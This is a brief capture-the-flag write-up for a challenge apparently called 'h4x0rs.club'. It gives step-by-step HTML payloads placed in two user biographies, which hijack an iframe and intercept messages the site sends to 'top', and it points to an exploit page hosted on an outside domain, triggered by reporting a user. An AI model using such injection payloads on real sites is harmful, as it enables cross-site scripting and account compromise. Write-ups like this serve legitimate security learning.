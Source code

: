 # h4x0rs.club

Upload [exploit.html](exploit.html) and [alert.js](alert.js) to `l4w.io` for example.

Create 2 users: `blah1` && `blah2`

Root cause:

Because on the backend side, they will send a message to `top` not `parent` . so we can inject our evil iframe in the middle.

### blah1
Set biography as the following:
```
<a href='//l4w.io/exploit.html' id=report-btn>
```

### blah2
Set biography as the following:
```
<a href='/game/?msg=<iframe name=game_server src=/game/user.php/blah1%23report><iframe>' id=report-btn></a>
```

Then report `blah2` user along with `#report`


